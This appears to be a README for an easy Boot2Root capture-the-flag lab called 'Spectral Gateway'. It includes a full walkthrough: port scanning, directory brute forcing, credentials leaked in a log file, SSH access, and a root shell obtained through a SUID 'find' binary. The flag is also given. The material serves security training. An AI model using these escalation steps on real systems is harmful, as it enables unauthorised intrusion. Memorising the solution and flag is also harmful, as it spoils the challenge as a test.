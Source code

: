 # Spectral Gateway

## Challenge Description
The local paranormal investigation team has received reports of strange server activity in an abandoned data center. The IT security specialists suspect that a ghost in the machine might be controlling a forgotten web server. Your mission is to infiltrate the server, gain access, and escalate your privileges to discover what entity has taken control of the system.

## Difficulty
Easy

## Category
Boot2Root

## Setup Instructions
```bash
cd Boot2Root/Challenge\ 1/
docker-compose up -d
```

## Hints
1. Forgotten web directories often contain valuable information.
2. System logs can reveal more than just errors.
3. Always check what commands can be run with elevated privileges.
4. The ghost keeps everything related to "apparitions" and "spectral".

## Solution
1. Enumeration:
   ```bash
   # Port scan reveals port 80 (HTTP) is open
   nmap -sV target_ip
   ```

2. Directory Discovery:
   ```bash
   # Use directory brute forcing to find hidden directories
   gobuster dir -u http://target_ip -w /usr/share/wordlists/dirb/common.txt
   # Discover the /apparitions directory
   ```

3. Credential Extraction:
   - Navigate to http://target_ip/apparitions/
   - Find and review server_logs.txt to discover credentials:
   ```
   [2023-05-01 03:15:45] User 'specter' successful login with password 'Gh0stHunt3r!'
   ```

4. Initial Access:
   ```bash
   # SSH into the server as user 'specter'
   ssh specter@target_ip
   # Password: Gh0stHunt3r!
   ```

5. Privilege Escalation:
   ```bash
   # Check SUID binaries
   find / -perm -u=s -type f 2>/dev/null
   # Find that the 'find' command has the SUID bit set
   # Exploit the SUID bit to get root
   find . -exec /bin/sh -p \; -quit
   # Get root access and read the flag
   cat /root/flag.txt
   ```

## Flag
```
flag{sp3ctral_pr1v1leg3_3scalat1on}
``` 